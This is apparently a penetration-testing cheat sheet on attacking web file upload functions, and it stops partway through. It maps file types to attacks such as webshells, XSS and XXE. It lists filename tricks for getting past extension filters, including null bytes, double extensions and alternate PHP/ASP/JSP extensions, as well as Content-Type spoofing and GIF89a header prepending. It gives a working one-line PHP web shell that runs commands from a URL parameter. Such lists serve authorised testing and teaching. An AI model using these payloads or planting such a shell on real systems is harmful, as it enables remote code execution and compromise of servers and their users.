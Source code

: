 -  Upload Function:
    - # Extensions Impact
        - `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
        - `SVG`: Stored XSS, SSRF, XXE
        - `GIF`: Stored XSS, SSRF
        - `CSV`: CSV injection
        - `XML`: XXE
        - `AVI`: LFI, SSRF
        - `HTML`, `JS` : HTML injection, XSS, Open redirect
        - `PNG`, `JPEG`: Pixel flood attack (DoS)
        - `ZIP`: RCE via LFI, DoS
        - `PDF`, `PPTX`: SSRF, BLIND XXE   
        - - - -
    - # Bypass
        - [ ] Blacklisting Bypass
            - PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
            - ASP → `asp`, `.aspx`, `.cer`, `.asa`
            - Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
            - Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
            - Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
        - [ ] Whitelisting Bypass
            - `file.jpg.php`
            - `file.php.jpg`
            - `file.php.blah123jpg`
            - `file.php%00.jpg`
            - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
            - `file.php%00`
            - `file.php%20`
            - `file.php%0d%0a.jpg`
            - `file.php.....`
            - `file.php/`
            - `file.php.\`
            - `file.php#.png`
            - `file.`
            - `.html`
           
        - [ ] Content-ish Bypass
            - [ ]  Content-type validation
                - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
                to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
            - [ ]  Content-Length validation
                - Small PHP Shell like:

            ```php
            (<?=`$_GET[x]`?>)
            ```

            - [ ]  Content Bypass Shell
            	- If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )
            	- GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
